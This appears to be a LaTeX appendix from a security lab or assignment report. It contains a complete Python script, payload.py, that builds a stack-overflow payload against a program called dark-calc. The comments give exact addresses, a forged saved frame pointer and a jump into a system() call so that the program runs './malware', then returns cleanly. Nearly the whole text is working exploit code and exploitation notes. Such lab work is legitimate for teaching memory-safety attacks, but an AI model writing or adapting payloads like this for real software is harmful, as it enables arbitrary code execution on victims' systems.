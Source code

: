 \documentclass[UTF8,a4paper,12pt,fontset=windows]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\subsection{任务一的脚本 \texorpdfstring{\code{payload.py}}{payload.py}}
\label{app:one}
\begin{lstlisting}
#!/usr/bin/env python3
"""Build a stack-overflow payload that transfers control to malware."""
import struct
import sys

# ---------------------------------------------------------------------------
# dark-calc facts (verified with objdump/readelf and by running the payload):
#   * input() keeps the expression at rbp-0x10 and returns via `leave; ret`,
#     so the saved return address is 0x18 bytes above the buffer;
#   * init_fixed_stack() mmap()s 0x721000000000 + 0x802000 RWX with PROT_NONE
#     guard pages at both ends, so expression[] always lands at
#     0x721000800fd0 and only 0x30 bytes remain before the upper guard page;
#   * input() strcpy()s the expression into command_buf (0x6030d0) before it
#     returns, so an expression starting with "./malware\0" leaves that exact
#     command string in command_buf;
#   * 0x401a6b is the tail of eval(): `mov edi, 0x6030d0; call system@plt`,
#     i.e. jumping there runs system("./malware") with a correctly aligned
#     stack;
#   * after system() returns, eval's epilogue is `leave; ret`, so the saved
#     rbp the overflow wrote decides where control continues.  Pointing it at
#     the saved-rip slot itself makes `leave` pop 0x401a6b into rbp and `ret`
#     use the next slot, which we set to __wrap_main.  __wrap_main resets rsp
#     to fixed_stack_top and calls main() again; the second input() sees EOF,
#     prints the answer and calls exit(0), so the process terminates cleanly.
# ---------------------------------------------------------------------------
system_call_site = 0x401A6B   # mov edi,command_buf; call system@plt (eval+0x94)
wrap_main = 0x401C0E          # restores rsp to fixed_stack_top, calls main()
fake_frame = 0x721000800FE8   # &saved rip slot: [X] = 0x401a6b, [X+8] = wrap_main

payload = b"./malware\x00"            # becomes command_buf via strcpy()
payload += b"A" * (0x10 - len(payload))   # pad the 16-byte expression[]
payload += struct.pack("<Q", fake_frame)        # saved rbp  -> forged frame
payload += struct.pack("<Q", system_call_site)  # saved rip  -> system()
payload += struct.pack("<Q", wrap_main)         # [fake_frame + 8]

assert len(payload) == 0x28 and len(payload) + 1 <= 0x30
assert b"\n" not in payload
sys.stdout.buffer.write(payload)
\end{lstlisting}
\end{document}
